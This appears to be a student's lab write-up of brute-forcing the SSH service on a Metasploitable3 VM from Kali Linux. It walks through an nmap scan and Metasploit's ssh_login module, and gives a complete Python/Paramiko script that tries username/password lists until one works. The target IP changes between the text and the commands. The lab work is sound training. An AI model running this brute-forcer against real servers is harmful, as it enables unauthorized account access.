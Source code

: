 # Phase 1 Work
---

# Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.138
  ![لقطة شاشة 2025-05-02 175018](https://github.com/user-attachments/assets/94942fcc-b660-42e3-8962-667f8791f449)


-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.100.138 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.

![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/557cb2b3-9eec-4926-a4d0-caa940052cd1)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.133
![لقطة شاشة 2025-05-02 174402](https://github.com/user-attachments/assets/663c2f26-6c43-4220-9bc8-1f94b2910df6)


#### Tools Used:
- Metasploit Framework
- Nmap
- Hydra
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak/default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.56.101
```
![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/3e9d89d4-12de-4791-a8d7-7e17c015532c)

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:
First: Create a file for usernames and passwords: 
![لقطة شاشة 2025-05-02 181530](https://github.com/user-attachments/assets/103cc98c-6273-4264-be51-b00c8f8f042b)
Then, we start to exploit: 
1. Launch Metasploit:
   ```
   msfconsole
   ```
   ![لقطة شاشة 2025-04-29 230224](https://github.com/user-attachments/assets/2c38ce71-aa71-4c33-abf3-d9fe9f5d8b15)

2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.
-Screen shot shown all the above steps:
![لقطة شاشة 2025-05-02 174003](https://github.com/user-attachments/assets/66bba784-ed18-418d-b479-883ae5f121df)

## Task 1.2 – Compromise Using Custom Script

# Custom SSH Brute-Force Script (Python + Paramiko)

This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

```
---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



